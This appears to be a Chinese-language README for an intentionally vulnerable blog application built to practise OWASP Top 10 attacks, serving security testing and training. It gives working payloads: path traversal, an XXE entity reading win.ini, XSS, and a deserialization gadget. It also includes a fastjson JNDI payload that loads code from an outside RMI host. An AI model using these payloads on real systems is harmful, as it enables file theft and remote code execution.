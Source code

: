 # Blog
自用漏洞验证平台，主要为测试owasp top 10漏洞


A1注入：search.htm

A2失效的身份认证和会话管理：登录页无限制，可暴力破解
![image](https://user-images.githubusercontent.com/1740718/131211872-d518d5c2-44c7-4110-a53e-c6845272f71d.png)

A3敏感信息泄漏：file.htm  download.htm?fileName=../WEB-INF/web.xml

A4 XXE:login2.htm

xml=<!DOCTYPE%20foo%20[<!ELEMENT%20foo%20ANY><!ENTITY%20abc%20SYSTEM%20"file:///c:/windows/win.ini">]><login><username>%26abc;</username><password>fdsf</password></login>

A5失效的访问控制：水平越权 管理后台-》读取博客

登录帐号：
test/test
tridentj/tridentj

A6安全配置错误：暂无

A7 XSS：search.htm  

&lt;img src="img/1.png" /&gt;

A8不安全的反序列化:upload.htm (apache-commons-collections-3.2.1) resources目录下cc.bin windows下弹出计算器

A9：fastjson 1.2.24前反序列化漏洞
http://localhost:8080/blog/updateUserInfo.htm

部署环境，参考resources中的fastjson.7z

json提交框中输入以下内容：
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.2.13.27:9999/Poc","autoCommit":true}
![image](https://user-images.githubusercontent.com/1740718/133755384-f98ca858-daa6-4642-99eb-47dacd51f858.png)



A10：无

![image](https://user-images.githubusercontent.com/1740718/131211747-2be958b6-4c49-4a79-b442-2ed0787443de.png)
![image](https://user-images.githubusercontent.com/1740718/131211703-2e6a2c93-40ac-416e-aed9-8c95a66bb6b5.png)


